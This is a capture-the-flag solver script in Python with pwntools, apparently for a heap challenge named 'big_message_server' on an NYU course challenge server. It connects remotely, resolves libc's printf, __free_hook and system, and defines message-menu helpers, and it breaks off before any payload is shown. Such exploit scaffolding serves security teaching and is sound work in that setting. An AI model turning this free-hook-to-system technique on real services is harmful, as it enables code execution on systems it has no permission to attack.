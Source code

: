 #### Solver Script
```python
from pwn import *

local = False
binary = './big_message_server'

if not local:
    conn = remote('offsec-chalbroker.osiris.cyber.nyu.edu', 1213)
    conn.recvuntil(b':')
    conn.sendline('vqv9731')
else:
    conn = process(binary)

libc = ELF('./libc.so.6')  
libc_printf = libc.symbols['printf']
libc_free_hook = libc.symbols['__free_hook']
libc_system = libc.symbols['system']


libc_printf = libc.symbols['printf']
libc_free_hook = libc.symbols['__free_hook']
libc_system = libc.symbols['system']

def get_intro():
  conn.recvuntil(b':')
  printf_address_leak = conn.recvline().strip()
  printf_address = int.from_bytes(printf_address_leak, byteorder="little")
  return printf_address


def add_message(message=("message").encode()):
  conn.recvuntil(b'>')
  conn.sendline(b'1')

  conn.recvuntil(b'>')
  conn.sendline(message)

def review_message(given_index):
  conn.recvuntil(b'>')
  conn.sendline(b'2')

  conn.recvuntil(b'>')
  conn.sendline(given_index.encode())

  conn.recvuntil('Your message is ')
  leak = conn.recvline().strip()
  print("LEAK: ", leak)

def edit_message(given_index, new_message):
  conn.recvuntil(b'>')
  conn.sendline(b'3')

  conn.recvuntil(b'>')
  conn.sendline(given_index.encode())

  conn.recvuntil(b'>')
  conn.sendline(new_message)

def send_message(given_index):
  conn.recvuntil(b'>')
  conn.sendline(b'4')
  
```